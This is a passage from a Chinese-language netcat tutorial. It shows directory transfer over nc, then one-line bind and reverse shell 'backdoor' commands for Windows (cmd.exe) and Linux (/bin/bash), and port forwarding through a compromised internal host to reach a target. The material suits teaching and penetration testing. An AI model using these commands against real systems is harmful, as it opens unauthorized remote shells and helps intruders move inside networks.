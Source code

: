 ## 4.目录传输（与文件传输类似）

- 服务器

```
tar -cvf - dir_name | nc -l [port_id]
```

- 客户端

```
nc -n [target_ip] [target_port] | tar -xvf - 
```



##  5. windows建立后门的方法

### 服务器——监听型后门

```
nc -l -p [port_id] -e cmd.exe
```

### 客户端——连接型后门

```
nc [target_ip] [target_port] -e cmd.exe
```



## 6、Linux下建立后门

### 服务器——监听型后门

```
nc -l -p [port_id] -e /bin/bash
```

### 客户端——连接型后门

```
nc [target_ip] [target_port] -e /bin/bash
```



## 7、连接转发

- 可以解决的问题

1. 对于无法访问内网特定机器的问题，我们可以先抓取内网一台机器，然后利用这台弱鸡进行端口转发，接受外网的数据，将数据转发到内网目标机器的特定端口。

```
'''
假设机器A和机器B是内网机器，机器B是我们的目标机器，机器C是外网机器，机器C和机器A是出于同一网段的，可以互相访问，机器C不可以访问机器B
'''
# bat文件中的内容： nc [ip_B] [port_B]
A: nc -l -p [port_A] -e XX.bat
B: nc -l -p [port_B] 
C: nc [ip_A] [prt_A]
```
